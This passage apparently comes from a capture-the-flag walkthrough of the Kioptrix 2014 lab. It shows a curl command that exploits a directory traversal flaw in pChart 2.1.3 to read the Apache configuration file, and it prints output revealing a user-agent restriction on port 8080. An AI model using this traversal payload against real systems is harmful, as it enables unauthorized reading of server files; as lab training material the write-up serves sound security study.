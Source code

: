 ![](/assets/images/kioptrix2014/screenshot-2.png)

Listing the default apache configuration file, we can see the document root of the service running on port 8080, and the user agent allowed to access it.

```console
root@kali:~$ curl -s "http://192.168.179.168/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf" | html2text | tail -19

SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser

<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>



</VirtualHost>


Include etc/apache22/Includes/*.conf
```
